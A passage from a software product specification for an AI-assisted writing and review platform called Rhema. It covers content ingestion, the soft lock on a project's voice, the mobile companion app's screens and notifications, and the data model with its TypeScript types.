| RSS/Atom | feed URL | items | `content:encoded` | `guid` + `pubDate` | — | 1.x |
| Single URL | URL | one item | Readability | `ETag`/`Last-Modified` | paywalled → `partial` | MVP |
| Google Docs | Picker (`drive.file`) | picked files | `.docx` export | `modifiedTime` | — | 1.x |
| Notion | export zip | `.md` | as-is | file hash | API later | 1.x |
| Upload · Paste | files · text/HTML | — | per-format pipeline · sanitize → turndown | file/content hash | — | MVP |

Each implements `discover / fetch / changeKey` behind one interface (REQ-INGEST-2, phasing per matrix row 42). **Link a publication:** validate (SSRF guard), `discover()` only — nothing fetched yet; show counts; default free items `included`, paid/unknown `omitted` with the export CTA; Confirm fetches, normalizes, stores `Sample` v1 per item at ≤1 req/s with an honest user-agent, robots respected (REQ-INGEST-3/5/12). **REQ-INGEST-4.** Every item has a per-item include/omit toggle; omitting removes it from the corpus set for the next build and retains its bytes and versions (re-including costs nothing). Sync is manual by default with optional daily auto-sync that never changes inclusion of new items without showing them as `new` (auto-include off by default). **Re-sync:** diff by `external_id` → `new` / `removed_remote` (kept, badged, still included) / changed change-key → conditional re-fetch → new `Sample` version only if the normalized-body hash differs (REQ-INGEST-6). **AC-I-A:** a fixture whose provider bumps `updated_at` without a body change produces zero new `Sample` versions and no pill change. Sync errors show the provider's message verbatim plus a remedy; last good versions are retained (REQ-INGEST-11).

**Upload:** `.md .txt .docx .doc .pages .rtf .odt .epub .html .pdf .png .jpg .tiff`; 25 MB/file, 200k words/sample, 50 files/batch; structured formats convert immediately and free; PDFs run TS-native extraction + heuristics + a small LLM reconstruction pass shown as "≈ 4 credits" before it runs (scans add Textract); the visual-PDF quality tier (≈130k tokens for a 56-page paper) is offered only from the warning drawer with its estimate and cap; unreadable files stay listed, auto-omitted, and count against coverage ("6 files, 5 readable") (REQ-INGEST-8/9). Every sample carries a quality verdict (`clean / reconstructed / partial / unreadable / empty`) with notes; non-clean verdicts open a drawer with *Check side by side* (pdf.js render beside the Markdown — the only place a raw source is shown), *Re-convert with visual PDF reading ≈ 180 credits*, *Omit* (REQ-INGEST-7). Canonical Markdown per research/9 §4: front-matter (title, date, source URL, fetched-at, hashes, quality), `[^n]` footnotes, content-addressed images, no body H1; the sample preview renders it read-only with version history — samples are the corpus, an edited sample is a different piece (REQ-INGEST-10). Hold-out identity is hidden until calibration completes, then badged `★ held out` and linked (REQ-INGEST-13). Deleting a voice deletes its samples, raw bytes and profile within the stated window; samples linked into a forked house style are references (REQ-INGEST-14). The product contains no input for a platform session cookie. **AC-I-B:** a CI grep over the client bundle, the OpenAPI document and the `Connection` schema finds no field, header or form input named or typed as a cookie/session token for any provider; the `substack` connector's request fixtures carry no `Cookie` header.

### 9.6 Voice ↔ project: linking, grouping, the soft lock

**Picker** at project creation defaults to *No voice* — an ad-hoc voice derived from the piece, labeled ad-hoc in the drafting note, never persisted (REQ-PERSONA-20). Picking a voice also sets the protocol's venue bar and length norms; a house *venue* voice suggests a protocol but does not force it. A `never-built` voice is allowed with the hint "Rhema will draft from the description only — build a profile for measured voice."

**Change policy — ruling R1.** The precedence rule `human guidance > voice charter > voice > model default` transcribes the voice into the per-piece charter at the first Revise; switching the voice afterwards makes new text answer to one prior while the charter protects another — the "switches register mid-piece" defect by construction. The operator's lean was a hard lock; this spec rules a **soft lock** with two named hatches for the two legitimate needs (wrong voice attached; profile refreshed):

| Project state | Change voice | Fork under another voice | Adopt refreshed profile |
|---|---|---|---|
| no draft | allowed freely from the header chip | n/a | n/a |
| v1 exists, unreviewed | soft-locked — the chip's *Change voice…* opens the fork sheet | allowed | allowed (snapshot update only) |
| reviewed / responded | soft-locked | allowed | allowed, with charter re-seed diff |

```
┌ Change the voice of "The Politics of Visibility"? ─────────────────────────────┐
│ This project's first draft was written against S. J. Sebastian · Substack, and  │
│ its voice charter was seeded from that profile at the first response round.     │
│ Changing the voice underneath a draft makes later rounds write against one      │
│ prior while the charter protects another.                                       │
│ (•) Fork this project under another voice — re-run from the outline             │
│     Voice [ Steven J. Vitali · Academic ▾ ]   Estimate ≈ 1,830 cr (draft)       │
│ ( ) This project has the wrong voice attached and no draft I want to keep       │
│     → archives v1 and its correspondence; the project returns to outline-only    │
│                                                     [ Cancel ]  [ Continue ]    │
└─────────────────────────────────────────────────────────────────────────────────┘
```

*Fork* creates a new project ("— under <voice>") at *Outlined* with a copied outline and the new voice, and opens the Draft run sheet; the original is untouched (REQ-PERSONA-23). *Wrong voice attached* is destructive by design, two-step, and archives (never deletes). No third option silently rewrites the manifest (REQ-PERSONA-22). **Adopt refreshed profile** updates the project's `persona_profile_snapshot_id` (snapshot-only by default); an opt-in checkbox runs `reseed_charter` (C0) that rewrites only the persona-derived charter lines with a diff shown before commit, never touching guidance lines; adoption is logged in the round log (REQ-PERSONA-24; ledger J13). **REQ-DATA-32 (amended).** `projects.persona_id` is freely changeable while no draft exists; once v1 exists the API rejects direct changes and exposes `POST /projects/:id/fork{voice}` and `POST /projects/:id/adopt-profile{snapshot, reseed}`. **REQ-IDE-7 (amended).** After v1 the chip menu offers Fork under another voice and Adopt refreshed profile, with the reason stated inline.

**Composites** (REQ-PERSONA-25/26): `Persona.members[]` and `register_map` exist in the schema (members are leaves; mode = most restrictive; no voice files at composite level); MVP ships no Compose button; imported composites render read-only ("Composed from A, B") and are pickable with a required Register; a **Register** selector appears on run launch for any voice recording more than one register, passed as the skills' `register` input. Sibling voices show a *See also* line.

---

## 10. Mobile companion

### 10.1 Scope rule and feature split

**The app is for reading, deciding, and glancing; the web is for composing and configuring** — Substack's split restated as a rule (Q-18). A capability ships on mobile only if it is an *input smaller than a paragraph* (a decision, a disposition, a message) or *reading*; composition and configuration stay on web (REQ-MOBILE-1). The app ships **after the web MVP** (1.x; Q-20 departure D3, §16.1) because its core depends on artifacts that exist only once the web loop is live and on push infrastructure. **At MVP the off-desk channel is the phone-width web plus email** (REQ-SPEC-20; review 12 #22): IDE routes below ~768 px render the reader-only Page *and* every input the mobile rule admits — the gate card's Approve / Wait for me / Stop, the five dispositions with a note, chat — from the same `findings-core` and gate contracts the app will consume; approval emails carry signed one-click *Wait for me* and *Open* links (never Approve); the "Open in the Rhema app" banner appears only once the app exists. So "approve the $60 run from the train" is servable at launch.

The "Mobile" column below describes the app; the "MVP web" column describes what the phone-width web layout supports at MVP.

| Capability | Web (desktop) | Phone-width web at MVP | Mobile app | App phase |
|---|---|---|---|---|
| Read drafts, outline, letters, rubric, walkthrough | ✓ | ✓ reader layout | ✓ reader mode, serif paper, dark/light | 1.x |
| Findings list + anchored view | ✓ | ◐ list-first; ticks | ◐ list-first; margin ticks; bottom sheet | 1.x |
| Dispositions with a note (adapt edits the proposal in a sheet); Apply | ✓ | ✓ dispositions; Apply ✗ | ✓ dispositions; Apply on 1.1 light-edit builds | 1.x / 1.1 |
| Bulk accept / apply | ✓ with one preview | ✗ | ✗ | — |
| Approvals: approve / wait for me / stop, with estimate | ✓ | ✓ | ✓ (biometric step-up) | 1.x |
| Approval editing (plan / scope fields) | ✓ | ✗ | ◐ comment on the plan only (queued guidance) | 1.1 |
| Chat with the Assistant | ✓ + promote | ◐ text only; no promote | ◐ text only; no promote; estimate chip before any research burst; research tools disabled on Free | 1.x |
| Notifications | in-app + email | in-app + email | push + in-app inbox | 1.x |
| Usage glance | four levels | ◐ level 0–1 | ◐ two levels (account, project → run list); no tokens, no prices | 1.x |
| Light edits on the working draft | ✓ | ✗ | ◐ paragraph-level; bold/italic/link; never on a frozen vN | 1.1 |
| Start runs | run sheet | ✗ | ◐ "Run next step with defaults" from the timeline, estimate shown, no configuration | 1.1 |
| Run configuration, rigor, model, voice building, ingestion, diffs, billing, export, new project, trial signup | ✓ | ✗ | ✗ | never (by rule) |

### 10.2 Platform

**Expo (managed) / React Native**, one codebase for iOS and Android (REQ-MOBILE-2). The deciding capability is the gate use case: a time-boxed approval that costs $10–100 if wrong needs the most reliable, actionable notification channel a phone offers — iOS Web Push exists only for installed PWAs, has no action buttons, and its reliability is unverified. Rejected: PWA (fine for reading, not for approvals); the responsive web IDE *as the app* (pane-based, desktop-first); native Swift + Kotlin (doubles the surface, breaks TypeScript-only). **REQ-MOBILE-3 (amended).** IDE routes at phone widths render the reader-only layout plus the sub-paragraph inputs of §10.1 (gate actions, dispositions, chat), so email links never dead-end at MVP; the app banner is shown only once the app is in the stores.

**Code sharing** (REQ-MOBILE-4): share `packages/contracts` (zod schemas, the single source of truth for every payload), `packages/api-client`, `packages/tokens`, `packages/findings-core` (disposition state machine, anchor mapping, ledger summaries, deadline math), `packages/markdown-view` (Rhema Markdown → mdast → RN views); never React components (`react-native-web` rejected) and never ProseMirror/Tiptap/Yjs client code (lint rule). The app pins a `contractVersion`; the API enforces `minAppVersion`/`minContract` with a forced-update screen that keeps cached reading available (REQ-MOBILE-18).

**Realtime:** foreground polling of `GET /runs/:id/events?after=seq` every 4 s; push when backgrounded; SSE or AppSync Events is the 1.1 upgrade if measurements demand it (REQ-MOBILE-5). **Light edits** (1.1): the reader receives the working document as blocks `{blockId, kind, markdown, hash}`; tapping a paragraph opens a native input; save → `PATCH /documents/:id/blocks/:blockId {baseHash, markdown}` applied server-side by a headless ProseMirror behind Hocuspocus in one Yjs transaction, tagged `human/mobile`, 409 on hash mismatch, refused on a frozen head with "This draft has been reviewed. Edit on the web to start v(N+1)" (REQ-MOBILE-6; ledger M17). **Push transport:** `expo-notifications` client; Expo Push Service behind a `NotificationTransport` interface with SNS as the named swap; device tokens in our Postgres (REQ-MOBILE-7). **Offline:** LRU cache of the last 10 opened projects in SQLite; reads work offline with a banner; dispositions queue with `ledgerVersion` checks; approvals and chat require connectivity ("Connect to decide · auto-proceeds at 14:32"); cache wiped on sign-out (REQ-MOBILE-8).

### 10.3 Screens

Bottom tabs **Inbox · Projects · Chat · Usage**; twelve screens: S1 Inbox (home), S2 Projects (grouped **Needs you / Running / Ready to read / Quiet** — the §5.2 labels verbatim, from the shared state function), S3 Project timeline (rounds; cancel run; read-only voice pill with "Update on the web"), S4 Run detail (Summary density; phase cards, counters, cost tick, "Boundaries held ✓"; walkthrough first when complete), S5 Reader (blocks, 6-pt severity ticks, footnotes inline on tap, `Aa` size stepper, paper theme), S6 Findings list, S7 Finding sheet, S8 Approval, S9 Chat, S10 Usage glance, S11 Settings (prefs, theme, devices, sign out), S12 Sign-in / forced-update / offline.

```
┌──────────────────────────────────────┐   ┌──────────────────────────────────────┐
│ Rhema                         ◔ 1,340│   │ ‹ Back      Structure plan · v1      │
│ NEEDS YOU                            │   │ Auto-proceeds in 21:40   [Wait for me]│
│ ┌──────────────────────────────────┐ │   │ The Drafter proposes 6 sections      │
│ │ ⏳ Approve structure plan        │ │   │ (≈ 4,800 words) opening on …         │
│ │ After Bureaucracy · draft v1     │ │   │ ▸ I. The received view    ~700 w     │
│ │ est. 41–58 credits · auto in 22m │ │   │ ▸ II. What Douglas said   ~800 w     │
│ │ [ Open ]            [ Wait ▷ ]   │ │   │ Voice: sjs-substack (profile 2 Aug)  │
│ └──────────────────────────────────┘ │   │ Rigor: Standard · fact-check on      │
│ ┌ ◆ 23 findings to triage ────────┐ │   │ Estimate: 41–58 credits              │
│ │ Structure of Pol. Difference · v2│ │   │ Guaranteed cap: 87 credits (1.5×)    │
│ │ 4 blocking · 11 major · 8 minor  │ │   │ Balance after: ≥ 1,253               │
│ READY TO READ                        │   │ [ Approve and continue ]             │
│ ┌ ✉ Editor's letter for v2 ───────┐ │   │ [ Stop this run ]                    │
│ │ "Argument holds; §4 evidence thin"│ │   │ Comment for the Drafter (1.1) ____   │
│ QUIET                                │   └──────────────────────────────────────┘
│  ○ Voice "sjs-academic" is stale     │
│  ▣ Inbox   ▤ Projects  ✎ Chat  ◔ Use │
└──────────────────────────────────────┘
```

**Finding sheet** (REQ-MOBILE-11 amended): header chips (severity, phase of origin, second-read confirmation); the quoted passage; the finding; the source link; *Proposed edit ▸*; the five verbs (plus Apply on 1.1 light-edit builds); a note field. Accept records the disposition with the copy "applied at revision time by the Drafter"; Adapt opens the proposed text for editing; Rebut and Escalate require a note; Defer pre-fills "Not this round"; Escalate marks the finding for the desktop and the Needs-you list; dispositions are reversible until the triage ledger freezes; offline: queued. **Approval screen** (REQ-MOBILE-12 amended): **all twelve gate kinds render on the one screen**; kinds with structured editable fields (plan, scope, cut list, triage) show their fields read-only with a comment box (1.1: comment becomes queued guidance); Approve above the user's spend threshold — **default 500 credits, the same user-settable value as the web consent threshold** (review 12 #23) — requires biometric or passcode, and the API requires a fresh session (≤12 h) for approvals ≥200 credits (REQ-MOBILE-16 amended; ledger L12); the estimate block shows the same fields as the web sheet; an expired approval states what happened. **Lock-screen actions are Open and Wait for me only — Approve is never a notification action** (REQ-MOBILE-10). **Chat** (REQ-MOBILE-13 amended): the same thread as web; Summary-density tool lines; an estimate chip before any research burst (the plan card, §7.1); on Free, research tools are disabled — there is no "daily allowance" concept outside the Free tier (review 11 #9); no run-starting verbs in the first app release. **Usage** (REQ-MOBILE-22): two levels, no tokens, no currency symbols, "Manage plan and credits on the web".

### 10.4 Notifications on mobile

Eight classes (REQ-MOBILE-9): N1 gate opened (push time-sensitive; email if unresolved after 15 min; actions Open / Wait for me), N2 gate about to auto-proceed (T−10 min; suppressed if N1 was opened in-app), N3 run ready (push; hourly email digest optional), N4 run failed / recovered / partial, N5 cost threshold (a spend gate; same card with spend framing), N6 voice stale (never push; weekly digest), N7 trial ending / credits low (no push — store rules), N8 chat reply while backgrounded. Every notification deep-links; per-class toggles are one server-side setting shared with web; quiet hours never delay N1/N2/N5; collapse key = run id. Push payloads carry IDs and templated strings only — never finding or draft text; "Private notifications" hides project titles (REQ-MOBILE-20).

```mermaid
sequenceDiagram
  participant RT as run-task
  participant PG as Postgres (run_events, gates)
  participant W as worker (notifier)
  participant T as NotificationTransport (Expo → APNs/FCM)
  participant M as mobile app
  participant API as api
  RT->>PG: gate.opened (visibility user), gates row expires_at
  PG-->>W: pg-boss job notify.gate_opened {gate_id}
  W->>PG: read prefs, devices, quiet hours; insert inbox_items
  W->>T: send {to: tokens, data: {kind, gate_id, run_id, project_id}, title, body}
  T-->>M: push (category GATE, actions Open / Wait for me)
  M->>API: (on open) GET /gates/:id → GateView
  M->>API: (on "Wait for me") POST /gates/:id/hold
  W->>PG: schedule notify.gate_expiring at expires_at − 10 min
  W->>T: (if still open at +15 min) email via SES
```

### 10.5 Auth, security, store, release

Sign in with Google, Sign in with Apple, email magic link (universal links, single-use, 10-minute), and passkeys from 1.1 (a device-local biometric step-up is not an account control; review 13 F45); no signup on mobile in the first app release; sessions in Keychain/Keystore via `expo-secure-store`; server-side device list with remote revoke shared with web; sign-out wipes cache and revokes the device token (REQ-MOBILE-15). No IAP, no prices, no purchase links; "Manage plan and credits on the web" without a tappable URL; no third-party analytics SDKs; account deletion linked to the web (REQ-MOBILE-17; ledger M19 verifies store rules before submission). EAS Build monthly, EAS Update weekly for JS-only changes (EAS is a recorded third-party SaaS exception — §13.1); feature flags gate 1.1 features server-side; preview stages get a dev-client build (REQ-MOBILE-18). Design tokens from `packages/tokens`; serif body 18 px default (16/18/20 stepper, Dynamic Type to 200%); the reader refuses to drop below 45 ch; tick widths encode severity (4/3/2 pt); primary actions in the bottom 40% of the screen (REQ-MOBILE-14). Cancel run from the timeline with the partial-results sentence (REQ-MOBILE-21).

Mobile-facing contracts (`InboxItem`, `GateView`, `FindingView`, `DocumentView`, `DispositionInput`, `BlockPatch`, `NotificationDevice`) and the new endpoints (`GET /inbox`, `GET /documents/:id` block view, `PATCH /documents/:id/blocks/:blockId`, `POST/DELETE /devices`, `GET/PUT /me/notification-prefs`) are design/7 §8's, adopted by reference as normative (§0.1) with `rigor: 'quick'|'standard'|'full_board'`, `staleness` using the eight-state vocabulary of §9.3, `GateView.blocking`, `GateView.presenceTimer?`, and `FindingView` as §5.7. The phone-width web consumes the same contracts at MVP.

---
## 11. Data model

### 11.1 Principles

- **Canonical text is markdown in S3, content-addressed by SHA-256; Postgres holds every relation** (REQ-DATA-1). Postgres never stores markdown bodies except `live_docs.y_state` (the CRDT for the working head) and short structured fields (claim text, finding body ≤ 4 kB). Rejected: markdown in Postgres `text` columns — 250k words per mature project × versions × restore points makes the database the bottleneck, and the harness needs bytes on disk anyway.
- **`artifact` is the one typed-document table**; drafts, correspondence items, and voice profile files are *roles* an artifact version plays. This keeps content-addressing, provenance and the visibility policy in one place. Rejected: one table per kind (39 tables, no shared enforcement).
- **`review` is keyed by `(draft_id, run_id)`** (ledger F9): one version may carry several reviews (protocol variants, scoped re-reviews, re-runs); the mirror path becomes `correspondence/vN-review-<k>/` with `k=1` also linked as the legacy `vN-review/`.
- **Claims, findings and dispositions are rows, produced under a structured-output contract (REQ-SPEC-12; review 13 F20).** The ported skills emit, alongside each markdown deliverable, a **machine-readable sidecar** — `01-claim-ledger.json`, `findings.json` (anchored, typed, severity-graded; the object the Margin, mobile, triage, rubric caps and "what changed and why" depend on), `rubric.json`, `structure-plan.json`, `response-ledger.json`, `cut-list.json` — validated by zod schemas in `packages/contracts` at commit. The markdown stays the human record and the immutable source; rows come from the sidecar; where both exist the sidecar is authoritative and a markdown ↔ sidecar mismatch is a validation failure. **A schema or parse failure on an MVP protocol is a delivery-validation failure, not a completion:** the run enters `failed(validation)` with the artifacts retained as partial, a `refusal`-class card explains it, and the phase's debits are refunded; there is no silent `parse_status=partial` completion (REQ-DATA-7 amended; `ArtifactVersion.parseStatus` records `ok | failed` only). The sidecar output is an upstream skill change budgeted under REQ-ARCH-5 (§12.2), kept in the public repo behind a `sidecar: true` input so the skills stay usable without it. The golden set starts at the three real dossiers (ledger F10) and **grows automatically**: every green nightly dossier becomes a parser fixture.
- **Namespaces are first-class**: `shared | agent:author | agent:editor | agent:assistant | agent:<future> | persona:<id>` on every artifact; enforcement (§12.6) and visibility (§8) both key on it.
- **Immutability is a state, not a flag the agent remembers**; drift and project state are computed, never stored as opinion (one deliberate v0.3 exception: revision obligations — a mutable row `state` cached by trigger from append-only `obligation_transitions`, §11.7).

### 11.2 Entity overview

```mermaid
erDiagram
  USER ||--o{ WORKSPACE_MEMBER : has
  WORKSPACE ||--o{ WORKSPACE_MEMBER : has
  WORKSPACE ||--o{ PROJECT : owns
  WORKSPACE ||--|| BILLING_ACCOUNT : bills
  BILLING_ACCOUNT ||--o{ SUBSCRIPTION : has
  BILLING_ACCOUNT ||--o{ CREDIT_LEDGER : entries
  PROJECT ||--o{ PROJECT_MEMBER : shares
  PROJECT ||--o{ ARTIFACT : contains
  ARTIFACT ||--o{ ARTIFACT_VERSION : versions
  PROJECT ||--o{ DRAFT : "vN"
  DRAFT ||--|| ARTIFACT_VERSION : promoted
  DRAFT ||--o| LIVE_DOC : "working head"
  LIVE_DOC ||--o{ RESTORE_POINT : snapshots
  PROJECT ||--o{ CORRESPONDENCE_ITEM : record
  CORRESPONDENCE_ITEM }o--|| DRAFT : about
  CORRESPONDENCE_ITEM }o--|| RUN : "delivered by"
  PROJECT ||--o{ RUN : runs
  RUN ||--o{ STEP : phases
  RUN ||--o{ EVENT : emits
  RUN ||--o{ GATE : opens
  GATE ||--o| DECISION : resolved_by
  RUN ||--o{ USAGE_RECORD : meters
  RUN ||--o{ ACCESS_LOG : touches
  RUN ||--o{ FETCH_LOG : fetches
  PROJECT ||--o{ GUIDANCE : guides
  PROJECT ||--o{ THREAD : chats
  AGENT_TYPE ||--o{ AGENT_INSTANCE : "per project"
  PROJECT ||--o{ AGENT_INSTANCE : namespaces
  AGENT_INSTANCE ||--o{ RUN : acts
  CORRESPONDENCE_ITEM ||--o{ CLAIM : "claim ledger"
  CLAIM ||--o{ CLAIM_SOURCE : "stance edges"
  CORRESPONDENCE_ITEM ||--o{ FINDING : dossier
  FINDING ||--o| DISPOSITION : "response ledger"
  PROJECT ||--o{ REVISION_OBLIGATION : owes
  REVISION_OBLIGATION ||--o{ OBLIGATION_FINDING : lineage
  FINDING ||--o{ OBLIGATION_FINDING : "carried by"
  REVISION_OBLIGATION ||--o{ OBLIGATION_TRANSITION : history
  PROJECT ||--o{ FIGURE : assets
  PROJECT ||--o{ PROTOCOL : "reviewed under"
  PROJECT }o--o| PERSONA : "written against"
  PERSONA ||--o{ PERSONA_MEMBER : composite
  PERSONA ||--o{ PERSONA_PROFILE : snapshots
  PERSONA ||--o{ CONNECTION : sources
  CONNECTION ||--o{ DISCOVERED_ITEM : discovers
  DISCOVERED_ITEM ||--o{ SAMPLE_VERSION : included
  PERSONA ||--o{ PROFILE_CORRECTION : corrections
```



### 11.3 Domain types (TypeScript)

The design/3 types are adopted with the vocabulary of this spec. Only the fields this spec changes or that other sections depend on are restated; the full listing in design/3 §3.2 remains normative for unchanged shapes (§0.1).

```ts
type Id<T extends string> = string & { __brand: T };          // ULIDs
type Sha256 = string & { __brand: 'sha256' };

// ---------- tenancy & sharing ----------
interface Workspace { id; kind: 'personal' | 'team'; name; billingAccountId }
type WorkspaceRole = 'member' | 'admin';
type ProjectRole = 'viewer' | 'editor' | 'admin';

// ---------- projects ----------
type ProjectStateKey = 'empty' | 'researching' | 'outlined' | 'draft' | 'reviewed' | 'edited_by_you'
  | 'accepted' | 'exported' | 'archived';                       // derived; overlays: running, needs_you (§6.3)
type ApprovalPolicy = 'named' | 'wait_each' | 'run_to_completion';
interface Project {
  id: ProjectId; workspaceId; ownerId; title; slug; protocolId: ProtocolId; protocolVersion: number; venue?: string;
  personaId?: PersonaId; personaProfileSnapshotId?: ProfileId; register?: string; personaLockedAt?: Date;   // set when v1 exists (soft lock, §9.6)
  approvalPolicy: ApprovalPolicy;                               // default 'named'
  approvalOverrides?: Partial<Record<GateKind, { deadlineMinutes: number | null }>>;
    // REQ-SPEC-1: for defaulted kinds a number ≥ the default or null (wait); for wait-default kinds a number ≥ 120 (adds a deadline);
    // never present for spend/refusal kinds (schema-rejected)
  rigorDefault: Rigor; modelTierDefault?: ModelTier; paperTheme: 'light' | 'follow' | 'dark';   // default 'light' (R17)
  tags?: string[];                                              // 1.x
  monthlyCreditCap?: number; acceptedDraftId?: DraftId; createdAt; archivedAt?;
}
interface ProjectMember { projectId; userId; role: ProjectRole; invitedBy; runCreditCap?: number }
type Rigor = 'quick' | 'standard' | 'full_board';
type ModelTier = 'base' | 'balanced' | 'frontier';               // the one name; "QualityTier" does not exist

// ---------- artifacts ----------
type Namespace = 'shared' | `agent:${AgentTypeKey}` | `persona:${PersonaId}`;
type ArtifactKind =                                              // the closed enum of §8.2 — 63 kinds (REQ-SPEC-14)
  // shared record
  | 'draft' | 'figure' | 'companion_doc' | 'drafting_note' | 'editors_letter' | 'piece_brief' | 'claim_ledger' | 'discourse_report'
  | 'argument_notes' | 'craft_notes' | 'second_read' | 'response_letter'
  // Drafter namespace
  | 'outline' | 'commissioning_brief' | 'voice_brief' | 'structure_plan' | 'draft_ledger' | 'consolidation_notes' | 'fidelity_audit'
  | 'source_note' | 'response_ledger' | 'voice_charter'
  // voice library
  | 'persona_seed' | 'persona_builder_note' | 'sample' | 'profile_index' | 'voice_print' | 'structure_repertoire' | 'lexicon' | 'exemplars'
  | 'positions' | 'continuity' | 'audience_venue' | 'calibration_report' | 'profile_provenance' | 'corpus_note' | 'holdout_note'
  | 'register_map' | 'shared_lexicon'
  // Rhema additions
  | 'run_transcript' | 'access_report' | 'fetch_log' | 'run_report' | 'walkthrough' | 'chat_session' | 'provenance_map' | 'ai_use_statement'
  | 'research_note' | 'preference_profile'
  // workflow additions
  | 'cut_list' | 'field_map' | 'open_ground' | 'steelman_essay' | 'vulnerability_map' | 'adjudication' | 'convergence_report'
  | 'title_candidates' | 'abstract_keywords' | 'reverse_outline' | 'suggestion_set' | 'pattern_note' | 'guidance_record' | 'sidecar';
type Visibility = 'SE' | 'SR' | 'I' | 'H';
interface ArtifactPolicy { level: Visibility; reasons: ('ux'|'integrity_boundary'|'secret_sauce'|'immutability')[];
  editMode: 'live_doc' | 'form' | 'guidance_only' | 'none' }
declare const artifactPolicy: Record<ArtifactKind, ArtifactPolicy>;           // REQ-VIS-1; contract test: keys(artifactPolicy) ≡ ArtifactKind
type Actor = { kind: 'user'; userId } | { kind: 'agent'; runId; agentInstanceId } | { kind: 'system' };
interface Artifact { id; projectId?; personaId?; kind: ArtifactKind; namespace: Namespace; mirrorPath: string; headVersionId?; createdAt }
interface ArtifactVersion { id; artifactId; ordinal; contentSha256: Sha256; s3Key; bytes; wordCount?; mediaType;
  createdBy: Actor; createdAt; immutable: boolean; parseStatus?: 'ok' | 'failed';   // 'partial' removed (REQ-SPEC-12)
  producerQueryId?: string;                                     // which orchestrator-launched query wrote it (review 13 F17)
  blockIdMap?: Record<string, { ordinal: number; contentHash: Sha256 }> }   // sidecar block ids (§5.4)

// ---------- drafts (three tiers) ----------
type DraftOrigin = 'drafted_from_outline' | 'response_to_review' | 'human_upload' | 'human_revision' | 'duplicate' | 'imported' | 'cut';
interface Draft { id: DraftId; projectId; n: number; origin: DraftOrigin; state: 'working' | 'frozen';
  promotedVersionId?; liveDocId?; frozenAt?; frozenBy?: { reason: 'run_read' | 'dossier_ref' | 'promote' | 'export'; runId? };
  baseDraftId?: DraftId; claimsPendingVerification: boolean; createdAt }
interface LiveDoc { id; draftId; yState: Uint8Array; stateVector: Uint8Array; mdSha256?; materializedAt? }
interface RestorePoint { id; liveDocId; s3Key; kind: 'snapshot' | 'delta'; cause: 'auto' | 'blur' | 'named' | 'workflow'; label?; createdAt }
interface WorkingCopy { id; baseDraftId; liveDocId; reconciledInto?: DraftId; createdAt }   // 1.x (review 13 F24)

// ---------- correspondence, claims, findings, dispositions ----------
type CorrespondenceKind = 'drafting_note' | 'review' | 'response' | 'walkthrough' | 'research_note' | 'cut_list' | 'field_map' | 'steelman' | 'convergence_report';
interface CorrespondenceItem { id; projectId; kind: CorrespondenceKind; draftId; runId; ordinal: number;   // review ordinal k
  deliveredAt; artifactIds[]; rubric?: Record<RubricDimension, 1|2|3|4|5>; verdict?: string;       // protocol vocabulary
  protocolId; protocolVersion; scope?: ScopeRef; optedOut: RigorFlag[]; priorReviewId?: Id<'corr'> }   // priorReviewId: review 13 F27
type ClaimVerdict = 'verified' | 'substantially_accurate' | 'misleading_in_context' | 'unsupported' | 'contradicted' | 'unverifiable'
  | 'verified_against_user_source';                                                          // the six values + one under Memo (REQ-GENRE-6)
interface Claim { id; correspondenceId; draftId; ordinal; text; tier: 1|2|3; verdict: ClaimVerdict; url?; normalizedUrl?; accessedAt?; note?;
  kind?: 'factual' | 'statistical' | 'quotation' | 'interpretive' | 'normative' | 'predictive';   // v0.3 (REQ-OBJ-19): fact-check spends only on checkable kinds
  sources?: Array<{ url: string; normalizedUrl: string; accessedAt: ISO;                          // v0.3 stance edges (REQ-OBJ-18); singular url remains
    stance: 'supports' | 'contradicts' | 'contextualizes'; note?: string }>;                      //   = sources[0] of the verdict-determining stance, so existing surfaces render unchanged
  sourceCheck?: 'matches_citation' | 'reputable_list' | 'from_search' | 'suspicious_source';      // review 13 F40
  anchor?: Anchor; humanAdded: boolean; figureId?: Id<'fig'>; extra?: Record<string, unknown> }   // extra = genre ledger columns (REQ-GENRE-7)
interface Anchor { blockId: string; quote: string; startOffset: number; endOffset: number; confidence: number; unanchored?: true }
  // canonical anchor into the frozen version's canonical markdown; Yjs relative positions live only in Finding.projections (review 13 F21)
type Severity = 'blocking' | 'major' | 'minor' | 'note';
interface Finding { /* §5.7 */ id; correspondenceId; draftId; ordinal; kind; severity: Severity; origin; reconciliation?; anchor?; title; body;
  evidence?; suggestion?; rubricDims[]; letterSection?; projections: Array<{ draftId; anchor: Anchor; relStart?: string; relEnd?: string }> }
type DispositionStatus = 'proposed' | 'open' | 'done' | 'verified' | 'mooted' | 'deferred' | 'escalated' | 'honored';
interface Disposition { id; findingId; responseId?; kind: 'accept'|'adapt'|'rebut'|'defer'|'escalate'; status: DispositionStatus;
  rationale?; adaptedText?; moveOrdinal?; applied?: boolean; by: Actor; frozenAt? }         // applied: the free Apply verb (REQ-SPEC-6)
interface DecisionRequest { id; projectId; sourceRunId; text; options[]; state: 'open'|'answered'|'dismissed'; answer? }   // Decisions inbox

// ---------- revision obligations (v0.3, §11.7; REQ-OBJ-1) — BacklogItem is removed; agenda rows become source:'agenda' obligations ----------
type ObligationState = 'open' | 'addressed' | 'discharged' | 'rebutted' | 'deferred' | 'mooted' | 'reopened';
type ObligationSource = 'finding' | 'escalation_decision' | 'agenda' | 'user';
interface RevisionObligation {                                    // MUTABLE project state — the one deliberate exception to "correspondence
  id: Id<'obl'>; projectId: ProjectId;                            // is immutable"; history is append-only (obligation_transitions); the row's
  source: ObligationSource; findingId?: Id<'find'>;               // state is a cache of the last transition. findingId = root finding; null for agenda/user rows
  severity: Severity; kind?: FindingKind; title: string;          // severity = max over the lineage set; title derived from the root finding
  state: ObligationState; stateSince: ISO; openedOnDraftId: DraftId;
  rationale?: string;                                             // rebut/defer rationale, copied from the closing disposition (DB-enforced)
  deferHorizon?: { rounds?: number; until?: 'next_review' | 'pre_export' };
  roundsOpen: number;                                             // consecutive covering reviews delivered while not discharged
  dischargedBy?: { dispositionId?: Id<'disp'>; moveOrdinal?: number; draftId: DraftId; verifiedBy: 'gap_check' | 're_review' | 'user' };
  createdBy: Actor; createdAt: ISO; closedAt?: ISO }
interface ObligationFinding { obligationId: Id<'obl'>; findingId: Id<'find'>; correspondenceId: Id<'corr'>;
  relation: 'root' | 'carried' | 'regression' }                   // lineage: which findings, across rounds, are "the same debt"

// ---------- preference profile (1.x tables; capture-only at MVP — §11.7; REQ-OBJ-9…14) ----------
interface PreferenceSignal { id: Id<'psig'>; workspaceId; userId;
  class: 'disposition_prior' | 'adaptation_delta' | 'apply_behavior' | 'recurring_guidance' | 'process_default' | 'venue_format';
